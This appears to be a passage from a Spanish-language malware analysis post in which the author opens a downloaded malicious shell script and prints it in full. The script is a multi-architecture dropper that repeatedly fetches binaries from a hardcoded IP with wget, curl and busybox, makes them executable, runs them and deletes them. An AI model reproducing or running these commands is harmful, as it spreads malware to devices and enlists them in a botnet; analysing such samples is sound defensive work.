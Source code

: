 Ahora, ¿qué hay dentro de este `.sh`? Bueno, una vez que lo descargamos, la pregunta es qué tipo de acciones realiza el script. Para averiguarlo, lo primero que hice fue abrir el archivo y revisar su contenido. ¿Qué estaba tratando de ejecutar este script malicioso?

```bash
#!/bin/bash
PATH=$PATH:/usr/bin:/bin:/sbin:/usr/sbin:/usr/local/bin:/usr/local/sbin
/bin/rm bins.sh
wget http://37.44.238.92/bins/tCV5vO5tw9z8XJnNLCPzh9rWcP75X3gc4G; curl -O  http://37.44.238.92/bins/tCV5vO5tw9z8XJnNLCPzh9rWcP75X3gc4G;/bin/busybox wget http://37.44.238.92/bins/tCV5vO5tw9z8XJnNLCPzh9rWcP75X3gc4G; chmod 777 tCV5vO5tw9z8XJnNLCPzh9rWcP75X3gc4G; ./tCV5vO5tw9z8XJnNLCPzh9rWcP75X3gc4G;rm tCV5vO5tw9z8XJnNLCPzh9rWcP75X3gc4G ##sh4

wget http://37.44.238.92/bins/59fT4e3UEmL9oGFEi4nhEPDL9v4liwzVzv; curl -O  http://37.44.238.92/bins/59fT4e3UEmL9oGFEi4nhEPDL9v4liwzVzv;/bin/busybox wget http://37.44.238.92/bins/59fT4e3UEmL9oGFEi4nhEPDL9v4liwzVzv; chmod 777 59fT4e3UEmL9oGFEi4nhEPDL9v4liwzVzv; ./59fT4e3UEmL9oGFEi4nhEPDL9v4liwzVzv;rm 59fT4e3UEmL9oGFEi4nhEPDL9v4liwzVzv ##m68k

wget http://37.44.238.92/bins/l8bIo6MX0E2xzUa8GlxxB3QQT28nJjEe7E; curl -O  http://37.44.238.92/bins/l8bIo6MX0E2xzUa8GlxxB3QQT28nJjEe7E;/bin/busybox wget http://37.44.238.92/bins/l8bIo6MX0E2xzUa8GlxxB3QQT28nJjEe7E; chmod 777 l8bIo6MX0E2xzUa8GlxxB3QQT28nJjEe7E; ./l8bIo6MX0E2xzUa8GlxxB3QQT28nJjEe7E;rm l8bIo6MX0E2xzUa8GlxxB3QQT28nJjEe7E ##i686

wget http://37.44.238.92/bins/1Url4Vmjm3jutDoL4IALrwVcTgwtmfdAki; curl -O  http://37.44.238.92/bins/1Url4Vmjm3jutDoL4IALrwVcTgwtmfdAki;/bin/busybox wget http://37.44.238.92/bins/1Url4Vmjm3jutDoL4IALrwVcTgwtmfdAki; chmod 777 1Url4Vmjm3jutDoL4IALrwVcTgwtmfdAki; ./1Url4Vmjm3jutDoL4IALrwVcTgwtmfdAki;rm 1Url4Vmjm3jutDoL4IALrwVcTgwtmfdAki ##powerpc

wget http://37.44.238.92/bins/z9GdbmiPoT1CYXtsXr4DYxGfZQoAwH2Upr; curl -O  http://37.44.238.92/bins/z9GdbmiPoT1CYXtsXr4DYxGfZQoAwH2Upr;/bin/busybox wget http://37.44.238.92/bins/z9GdbmiPoT1CYXtsXr4DYxGfZQoAwH2Upr; chmod 777 z9GdbmiPoT1CYXtsXr4DYxGfZQoAwH2Upr; ./z9GdbmiPoT1CYXtsXr4DYxGfZQoAwH2Upr;rm z9GdbmiPoT1CYXtsXr4DYxGfZQoAwH2Upr ##armv6l

wget http://37.44.238.92/bins/kcZ7wDS9Ey1472EBe1Yh1UdgSWJCDpmXmX; curl -O  http://37.44.238.92/bins/kcZ7wDS9Ey1472EBe1Yh1UdgSWJCDpmXmX;/bin/busybox wget http://37.44.238.92/bins/kcZ7wDS9Ey1472EBe1Yh1UdgSWJCDpmXmX; chmod 777 kcZ7wDS9Ey1472EBe1Yh1UdgSWJCDpmXmX; ./kcZ7wDS9Ey1472EBe1Yh1UdgSWJCDpmXmX;rm kcZ7wDS9Ey1472EBe1Yh1UdgSWJCDpmXmX ##armv5l

wget http://37.44.238.92/bins/MDukejRpEVRJtAF8qJOUHxMH7xLDBBSPzA; curl -O  http://37.44.238.92/bins/MDukejRpEVRJtAF8qJOUHxMH7xLDBBSPzA;/bin/busybox wget http://37.44.238.92/bins/MDukejRpEVRJtAF8qJOUHxMH7xLDBBSPzA; chmod 777 MDukejRpEVRJtAF8qJOUHxMH7xLDBBSPzA; ./MDukejRpEVRJtAF8qJOUHxMH7xLDBBSPzA;rm MDukejRpEVRJtAF8qJOUHxMH7xLDBBSPzA ##mips

wget http://37.44.238.92/bins/y4cOM46uRtKFAfg7vowXnJ6sPSo9YtWU4q; curl -O  http://37.44.238.92/bins/y4cOM46uRtKFAfg7vowXnJ6sPSo9YtWU4q;/bin/busybox wget http://37.44.238.92/bins/y4cOM46uRtKFAfg7vowXnJ6sPSo9YtWU4q; chmod 777 y4cOM46uRtKFAfg7vowXnJ6sPSo9YtWU4q; ./y4cOM46uRtKFAfg7vowXnJ6sPSo9YtWU4q;rm y4cOM46uRtKFAfg7vowXnJ6sPSo9YtWU4q ##mipsel

wget http://37.44.238.92/bins/wk7VTKwCVeEQJUdhBBXEYBpypx8AKzXuTR; curl -O  http://37.44.238.92/bins/wk7VTKwCVeEQJUdhBBXEYBpypx8AKzXuTR;/bin/busybox wget http://37.44.238.92/bins/wk7VTKwCVeEQJUdhBBXEYBpypx8AKzXuTR; chmod 777 wk7VTKwCVeEQJUdhBBXEYBpypx8AKzXuTR; ./wk7VTKwCVeEQJUdhBBXEYBpypx8AKzXuTR;rm wk7VTKwCVeEQJUdhBBXEYBpypx8AKzXuTR ##i586

wget http://37.44.238.92/bins/MCWmH8qLGsVQZzvbYfRMovyxDSv25KlH75; curl -O  http://37.44.238.92/bins/MCWmH8qLGsVQZzvbYfRMovyxDSv25KlH75;/bin/busybox wget http://37.44.238.92/bins/MCWmH8qLGsVQZzvbYfRMovyxDSv25KlH75; chmod 777 MCWmH8qLGsVQZzvbYfRMovyxDSv25KlH75; ./MCWmH8qLGsVQZzvbYfRMovyxDSv25KlH75;rm MCWmH8qLGsVQZzvbYfRMovyxDSv25KlH75 ##armv4l

wget http://37.44.238.92/bins/j5pF2uRAfRIrxFbSnk6Wcqg8sFoHfAcw0f; curl -O  http://37.44.238.92/bins/j5pF2uRAfRIrxFbSnk6Wcqg8sFoHfAcw0f;/bin/busybox wget http://37.44.238.92/bins/j5pF2uRAfRIrxFbSnk6Wcqg8sFoHfAcw0f; chmod 777 j5pF2uRAfRIrxFbSnk6Wcqg8sFoHfAcw0f; ./j5pF2uRAfRIrxFbSnk6Wcqg8sFoHfAcw0f;rm j5pF2uRAfRIrxFbSnk6Wcqg8sFoHfAcw0f ##powerpc-440fp

```